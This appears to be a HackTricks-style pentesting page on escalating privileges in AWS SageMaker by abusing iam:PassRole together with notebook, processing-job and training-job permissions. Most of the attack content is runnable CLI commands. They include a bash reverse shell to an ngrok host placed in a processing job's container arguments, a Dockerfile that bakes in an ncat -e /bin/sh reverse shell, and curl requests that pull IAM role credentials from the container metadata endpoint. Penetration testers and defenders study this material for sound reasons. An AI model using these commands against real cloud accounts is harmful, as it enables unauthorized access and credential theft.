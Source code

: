 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{{#include ../../../banners/hacktricks-training.md}}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Start creating a noteboook with the IAM Role to access attached to it:

```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
    --instance-type ml.t2.medium \
    --role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```

The response should contain a `NotebookInstanceArn` field, which will contain the ARN of the newly created notebook instance. We can then use the `create-presigned-notebook-instance-url` API to generate a URL that we can use to access the notebook instance once it's ready:

```bash
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name <name>
```

Navigate to the URL with the browser and click on \`Open JupyterLab\`\` in the top right, then scroll down to “Launcher” tab and under the “Other” section, click the “Terminal” button.

Now It's possible to access the metadata credentials of the IAM Role.

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

If there are Jupyter **notebooks are already running** on it and you can list them with `sagemaker:ListNotebookInstances` (or discover them in any other way). You can **generate a URL for them, access them, and steal the credentials as indicated in the previous technique**.

```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```

**Potential Impact:** Privesc to the sagemaker service role attached.

### `sagemaker:CreateProcessingJob,iam:PassRole`

An attacker with those permissions can make **sagemaker execute a processingjob** with a sagemaker role attached to it. The attacked can indicate the definition of the container that will be run in an **AWS managed ECS account instance**, and **steal the credentials of the IAM role attached**.

```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
    --processing-job-name privescjob \
    --processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
    --app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
    --role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

An attacker with those permissions will be able to create a training job, **running an arbitrary container** on it with a **role attached** to it. Therefore, the attcke will be able to steal the credentials of the role.

> [!WARNING]
> This scenario is more difficult to exploit than the previous one because you need to generate a Docker image that will send the rev shell or creds directly to the attacker (you cannot indicate a starting command in the configuration of the training job).
>
> ```bash
> # Create docker image
> mkdir /tmp/rev
> ## Note that the trainning job is going to call an executable called "train"
> ## That's why I'm putting the rev shell in /bin/train
> ## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
> cat > /tmp/rev/Dockerfile <<EOF
> FROM ubuntu
> RUN apt update && apt install -y ncat curl
> RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
> RUN chmod +x /bin/train
> CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
> EOF
>
> cd /tmp/rev
> sudo docker build . -t reverseshell
>
> # Upload it to ECR
> sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
> sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> ```

```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
    --training-job-name privescjob \
    --resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
    --algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
    --role-arn <role-arn> \
    --output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
    --stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

An attacker with those permissions will (potentially) be able to create an **hyperparameter training job**, **running an arbitrary container** on it with a **role attached** to it.\
&#xNAN;_&#x49; haven't exploited because of the lack of time, but looks similar to the previous exploits, feel free to send a PR with the exploitation details._

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{{#include ../../../banners/hacktricks-training.md}}

